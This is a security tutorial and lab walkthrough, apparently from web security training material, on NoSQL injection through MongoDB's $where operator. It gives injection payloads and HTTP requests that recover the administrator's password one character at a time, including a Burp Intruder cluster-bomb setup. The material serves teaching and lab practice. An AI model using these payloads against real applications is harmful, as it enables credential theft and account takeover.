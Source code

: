 ## Exploiting syntax injection to extract data 
In many NoSQL databases, some query operators or functions can run limited JavaScript code, such as MongoDB's $where operator and mapReduce() function. This means that, if a vulnerable application uses these operators or functions, the database may evaluate the JavaScript as part of the query. You may therefore be able to use JavaScript functions to extract data from the database.

Consider a vulnerable application that allows users to look up other registered usernames and displays their role. This triggers a request to the URL:
```
https://insecure-website.com/user/lookup?username=admin
```

This results in the following NoSQL query of the users collection:
```
{"$where":"this.username == 'admin'"}
```

As the query uses the $where operator, you can attempt to inject JavaScript functions into this query so that it returns sensitive data. For example, you could send the following payload:
```
admin' && this.password[0] == 'a' || 'a'=='b
```

This returns the first character of the user's password string, enabling you to extract the password character by character.

You could also use the JavaScript match() function to extract information. For example, the following payload enables you to identify whether the password contains digits:
```
admin' && this.password.match(/\d/) || 'a'=='b
```

### Lab: Exploiting NoSQL injection to extract data
There's an endpoint:
```
GET /user/lookup?user=wiener HTTP/2
```
Making sure it is vulnerable (not url encoded for the sake of readability):
```
GET /user/lookup?user=wiener' && '1' == '1
```
Find out the password length
```
GET /user/lookup?user=administrator' && this.password.length < 30 || 'a'=='b
```

Right-click the request and select Send to Intruder.
In Intruder, enumerate the password:
- Change the user parameter to `administrator' && this.password[§0§]=='§a§`. This includes two payload positions. Make sure to URL-encode the payload.
- Select Cluster bomb attack from the attack type drop-down menu.
- In the Payloads side panel, select position 1 from the Payload position drop-down list. Add numbers from 0 to 7 for each character of the password.
- Select position 2 from the Payload position drop-down list, then add lowercase letters from a to z. If you're using Burp Suite Professional, you can use the built-in a-z list.
- Click Start attack.
- Sort the attack results by Payload 1, then Length. Notice that one request for each character position (0 to 7) has evaluated to true and retrieved the details for the administrator user. Note the letters from the Payload 2 column down.
